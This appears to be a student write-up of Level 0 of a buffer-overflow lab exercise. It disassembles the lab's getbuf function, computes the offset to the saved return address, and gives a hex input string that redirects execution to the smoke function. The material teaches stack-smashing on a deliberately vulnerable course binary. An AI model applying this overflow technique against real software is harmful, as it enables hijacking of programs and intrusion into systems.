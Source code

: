 # Buffer Lab

> This assignment will help you develop a detailed understanding of IA-32 calling
> conventions and stack organization. It involves applying a series of buffer
> overflow attacks on an executable file bufbomb in the lab directory.

## Level 0: Candle/Smoke

Target: get BUFBOMB to execute the code for smoke when getbuf executes its return statement

Get `smoke` address from assembly code: `08049415`

```assembly
# buf
08049c12 <getbuf>:
 8049c12:	55                   	push   %ebp
 8049c13:	89 e5                	mov    %esp,%ebp
 8049c15:	83 ec 38             	sub    $0x38,%esp
 8049c18:	83 ec 0c             	sub    $0xc,%esp
 8049c1b:	8d 45 d2             	lea    -0x2e(%ebp),%eax
 8049c1e:	50                   	push   %eax
 8049c1f:	e8 5e fa ff ff       	call   8049682 <Gets>
 8049c24:	83 c4 10             	add    $0x10,%esp
 8049c27:	b8 01 00 00 00       	mov    $0x1,%eax
 8049c2c:	c9                   	leave
 8049c2d:	c3                   	ret
```

`lea -0x2e(%ebp),%eax` => in `buf[M]`, the number of M is 46 => plus 4 bytes in `%ebp`,
the return address should begin at 50.

That is, in this string, the first 50 bytes mean nothing, 50~53 mean the return address.
So, the string should be:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 15 94 04 08
```
